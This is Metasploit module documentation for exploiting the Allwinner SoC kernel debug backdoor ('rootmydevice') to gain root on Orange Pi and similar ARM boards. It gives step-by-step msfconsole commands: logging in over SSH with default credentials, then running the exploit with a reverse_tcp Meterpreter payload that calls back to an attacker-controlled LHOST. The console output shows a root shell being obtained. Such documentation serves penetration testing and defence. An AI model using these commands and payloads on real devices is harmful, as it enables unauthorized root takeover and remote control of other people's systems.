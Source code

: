 ## Vulnerable Application

Vulnerable Allwinner SoC chips: H3, A83T or H8 which rely on Kernel 3.4.

Vulnerable OS:

* all OS images available for Orange Pis
* any for FriendlyARM's NanoPi M1
* SinoVoip's M2+ and M3
* Cuebietech's Cubietruck +
* Linksprite's pcDuino8 Uno

Exploitation may be possible against Dragon (x10) and Allwinner Android tablets.

This module attempts to exploit a debug backdoor privilege escalation in
Allwinner SoC based devices. Implements the Allwinner privilege escalation
as documented in [Metasploit issue #6869](https://github.com/rapid7/metasploit-framework/issues/6869).
It is a simple debug kernel module that, when "rootmydevice" is echoed to
the process, it escalates the shell to root.


## Verification Steps

To use this module, you need a vulnerable device.

An Orange Pi (PC model) running Lubuntu 14.04 v0.8.0 works, but other OSes for the device (as well as other devices) are also vulnerable.

1. Start `msfconsole`
1. Get a session
1. Do: `use exploit/multi/local/allwinner_backdoor`
1. Do: `set SESSION [SESSION]`
1. Do: `set LHOST [LHOST]`
1. Do: `run`
1. You should get a new *root* session


## Options


## Scenarios

### Orange PI running Ubuntu 14.04 (Linux 3.4.39)

- `use auxiliary/scanner/ssh/ssh_login`

```
msf auxiliary(ssh_login) > set username orangepi
username => orangepi
msf auxiliary(ssh_login) > set password orangepi
password => orangepi
msf auxiliary(ssh_login) > set rhosts 192.168.2.21
rhosts => 192.168.2.21
msf auxiliary(ssh_login) > exploit

[*] 192.168.2.21:22 SSH - Starting bruteforce
[+] 192.168.2.21:22 SSH - Success: 'orangepi:orangepi' 'uid=1001(orangepi) gid=1001(orangepi) groups=1001(orangepi),27(sudo),29(audio)
Linux orangepi 3.4.39 #41 SMP PREEMPT Sun Jun 21 13:09:26 HKT 2015 armv7l armv7l armv7l GNU/Linux '
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (192.168.2.229:33673 -> 192.168.2.21:22) at 2016-05-17 21:55:27 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

- `use exploit/multi/local/allwinner_backdoor`

```
msf exploit(allwinner_backdoor) > set verbose true
verbose => true
msf exploit(allwinner_backdoor) > set session 1
session => 1
msf exploit(allwinner_backdoor) > set payload linux/armle/meterpreter/reverse_tcp
payload => linux/armle/meterpreter/reverse_tcp
msf exploit(allwinner_backdoor) > set lhost 192.168.2.117
lhost => 192.168.2.117
msf exploit(allwinner_backdoor) > check
[*]  The target appears to be vulnerable.
msf exploit(allwinner_backdoor) > exploit
```

Successful exploitation:

```
[*] Started reverse TCP handler on 192.168.2.117:4444
[*] Transmitting intermediate stager...(136 bytes)
[*] Sending stage (374540 bytes) to 192.168.2.248
[+] Backdoor Found, writing payload to /tmp/odzVx.elf
[*] Max line length is 65537
[*] Writing 284 bytes in 1 chunks of 843 bytes (octal-encoded), using printf
[+] Escalating
[*] Transmitting intermediate stager...(136 bytes)
[*] Sending stage (374540 bytes) to 192.168.2.248
[*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.248:49472) at 2016-09-22 21:56:50 -0400

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.2.248
OS           : Ubuntu 14.04 (Linux 3.4.39)
Architecture : armv7l
Meterpreter  : armle/linux
```
